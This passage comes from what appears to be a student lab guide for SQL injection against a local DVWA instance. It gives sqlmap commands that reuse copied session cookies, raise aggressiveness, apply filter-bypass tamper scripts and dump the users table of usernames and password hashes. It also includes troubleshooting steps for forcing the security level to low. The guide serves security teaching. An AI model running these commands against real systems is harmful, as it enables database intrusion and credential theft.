 ## 7.2 If `cookies.txt` fails — use browser session cookie directly
In Firefox DevTools → Storage → Cookies, copy the `PHPSESSID` value (and `security` if present). Then run:
```bash
SESSION="paste_PHPSESSID_here"
sqlmap -u "http://127.0.0.1/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=${SESSION}; security=low" -p id --batch --level=3 --risk=2 --dbs | tee sqlmap-dbs.txt
```

## 7.3 If sqlmap reports "not injectable" — try aggressive mode
```bash
SESSION=$(grep PHPSESSID cookies.txt | awk '{print $7}')
sqlmap -u "http://127.0.0.1/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=${SESSION}; security=low" -p id --batch --level=5 --risk=3 --technique=BEU --random-agent --tamper=space2comment --dbs | tee sqlmap-aggr.txt
```

Notes: `--tamper=space2comment` rewrites spaces to `/**/` to bypass basic filters. `--random-agent` randomizes the User-Agent header.

---

# 8. Reading results
- `sqlmap-dbs.txt` will contain discovered databases (look for `dvwa`).
- `sqlmap-tables.txt` shows table names; look for `users`.
- `sqlmap-users.txt` will contain the dumped rows (usernames & password hashes).

**For your assignment**: copy the `users` table output into your report and explain steps and payloads used (examples are in this guide).

---

# 9. Troubleshooting (common problems & fixes)

## 9.1 `HTTP/1.1 302 Found -> Location: ../../login.php`
Meaning: your terminal session is not authenticated. Fix by re‑creating `cookies.txt` (Step 1) and setting `security=low` (Step 2). If that fails, use the **browser cookie** method (Step 7.2).

## 9.2 `security=impossible` keeps appearing
Possible causes:
- You are missing the `security=low` cookie for the session the terminal sends. Edit or overwrite `cookies.txt` and force `security=low` (example command below).

**Force security low by editing cookies file (safe for local lab):**
```bash
cp cookies.txt cookies.txt.bak
awk 'BEGIN{OFS="\t"} { if($6=="security") $7="low"; print }' cookies.txt > cookies.tmp && mv cookies.tmp cookies.txt
grep -i security cookies.txt
```
